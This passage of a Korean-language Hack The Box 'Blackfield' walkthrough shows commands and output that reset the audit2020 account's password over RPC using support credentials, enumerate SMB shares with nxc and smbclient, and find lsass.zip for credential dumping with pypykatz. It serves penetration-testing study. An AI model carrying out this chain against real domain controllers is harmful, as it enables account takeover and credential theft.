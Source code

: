 ```zsh
└─# net rpc password "audit2020" "T3STP4SSW0RD123$%^" -U "BLACKFIELD.local"/"support"%"#00^BlackKnight" -S 10.129.229.17

└─# nxc smb 10.129.229.17 -u audit2020 -p 'T3STP4SSW0RD123$%^'
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:T3STP4SSW0RD123$%^
```

### Checking SMB Permission of audit2020 account
- [1] `audit2020` 계정은 `support` 계정과 달리 `forensic` 쉐어에 대한 읽기 권한이 존재했다.  
```zsh
└─# nxc smb 10.129.229.17 -u audit2020 -p 'T3STP4SSW0RD123$%^' --shares
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:T3STP4SSW0RD123$%^ 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share
```

- [2] `forensic` 쉐어의 `memory_analysis` 폴더에는 `lsass.zip` 압축 파일이 존재했다.  
- [3] 사용자가 로그인에 성공하면 자격 증명이 생성되고 메모리의 로컬 보안 시스템 서비스인 LSASS(Local Security Authority Subsystem Service)에 저장된다. 따라서, 해당 압축파일이 LSASS에 저장된 자격 증명을 압축한 파일이라면 `pypykatz` 와 같은 도구를 사용하여 크레덴셜 덤핑을 진행할 수 있다.  

```zsh
└─# smbclient //10.129.229.17/forensic -U 'audit2020' -c 'recurse;ls'     
Password for [WORKGROUP\audit2020]:
[ . . . ]
\memory_analysis
  .                                   D        0  Thu May 28 20:28:33 2020
  ..                                  D        0  Thu May 28 20:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 20:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 20:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 20:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 20:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 20:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 20:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 20:25:25 2020
[ . . . ]
```

